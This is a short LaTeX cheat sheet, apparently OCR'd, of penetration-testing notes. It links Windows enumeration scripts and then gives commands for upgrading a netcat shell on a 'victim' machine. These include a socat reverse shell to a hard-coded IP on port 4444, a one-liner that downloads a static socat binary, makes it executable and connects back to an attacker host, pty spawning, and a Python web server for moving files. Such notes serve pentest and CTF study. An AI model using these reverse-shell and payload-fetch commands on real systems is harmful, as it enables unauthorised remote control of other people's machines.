 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
Windows:


https://www.fuzzysecurity.com/tutorials/16.html  (Dictates some very useful commands and methods to enumerate the host and gain intel)


https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp (A bit old but still an incredibly useful script)


https://github.com/411Hall/JAWS (A general enumeration script)

\section{Useful stuff}

\subsection{Upgrade your netcat shell}
Python pty module:
\begin{lstlisting}
	python -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}
If you the victim doesn't have python installed:
\begin{lstlisting}
	/usr/bin/script -qc /bin/bash /dev/null
\end{lstlisting}
With socat:
Listener:
\begin{lstlisting}
	socat file:`tty`,raw,echo=0 tcp-listen:4444
\end{lstlisting}
Victim:
\begin{lstlisting}
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
\end{lstlisting}
If socat isn't installed you can try to get a standalone binary:
\begin{lstlisting}
	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.9.7.1:4444
\end{lstlisting}
With magic:
\begin{lstlisting}
	python -c 'import pty; pty.spawn("/bin/bash")'
	CTRL-Z
	stty raw -echo
	fg
	reset
	export SHELL=bash
	export TERM=xterm256-color
	stty rows 38 columns 116
\end{lstlisting}

\subsection{Setting up a simple webserver}
Use this to load files on a other machine. The webservers is hosted in the directory the shell is.
\begin{lstlisting}
	python3 -m http.server 1337
\end{lstlisting}
\end{document}
